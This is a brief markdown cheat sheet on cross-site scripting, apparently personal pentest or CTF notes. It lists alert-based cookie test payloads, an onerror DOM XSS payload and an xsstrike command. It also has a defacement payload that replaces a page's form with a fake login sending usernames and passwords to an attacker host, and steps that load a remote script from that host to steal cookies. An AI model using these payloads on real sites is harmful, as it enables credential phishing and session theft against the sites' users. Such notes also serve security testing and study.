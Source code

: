# XSS
## Testing for XSS

```javascript
<script>alert(window.origin)</script>
```
```javascript
<script>alert(document.cookie)</script>
```

## DOM XSS
```javascript
<img src="" onerror=alert(document.cookie)>
```
## Automated Discovery
```zsh
python3 xsstrike.py -u "http://<IP:PORT>/<page>.php?<param>=<value>" 
```

## XSS Payloads

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
https://github.com/payloadbox/xss-payload-list

## For Defacement

```javascript
document.write('<h3>Please login to continue</h3><form action=http://<IP>/index_cred_s.php><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('<original form name>').remove();

```


## For forms

1. Make a payload for each entry to check if any is vulnerable to XSS by trying to get a hosted resource. 
```javascript
<script src=http://<IP>/<form-field></script>
```
2. We will recieve a 404 error on the webserver for that field
3. Send this payload in the vulnerable field: 
```javascript
<script src=http://<IP>/cookie_s_script.js></script>
 ```
 4. This script calls a PHP that gets the cookies.
 

## Blind XSS
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss
